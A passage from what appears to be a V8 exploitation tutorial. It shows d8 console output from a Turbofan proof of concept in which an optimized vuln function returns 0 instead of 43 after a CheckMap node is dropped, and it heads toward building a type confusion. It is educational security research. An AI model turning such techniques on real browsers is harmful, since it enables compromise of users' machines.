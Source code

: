 Now that we have created our proof of concept, let's start `d8` with the `--allow-naitives-syntax` flag and add in our `vuln` function. Once the function is created, let's execute the last 4 lines of code within our proof of concept. You should see the following output:

```
d8> vuln({a:42, b:43})
43
d8> vuln({a:42, b:43})
43
d8> %OptimizeFunctionOnNextCall(vuln)
undefined
d8> vuln({a:42, b:43})
0
```

And with that, we have working proof of concept! As you can see, the optimized function no longer returns `43`, but returns `0` instead.

Before we delve further into the bug and try to achieve a working type-confusion, let's run this script with the `--trace-turbo` flag and inspect the IR at each optimization stage to confirm that the `CheckMap` node has indeed been removed and that this is not a fluke.

```
C:\dev\v8\v8\out\x64.debug>d8 --allow-natives-syntax --trace-turbo poc.js
Concurrent recompilation has been disabled for tracing.
---------------------------------------------------
Begin compiling method vuln using Turbofan
---------------------------------------------------
Finished compiling method vuln using Turbofan
```

Once you have the turbo file created, let's examine the Typer optimization phase to see the initial IR graph.
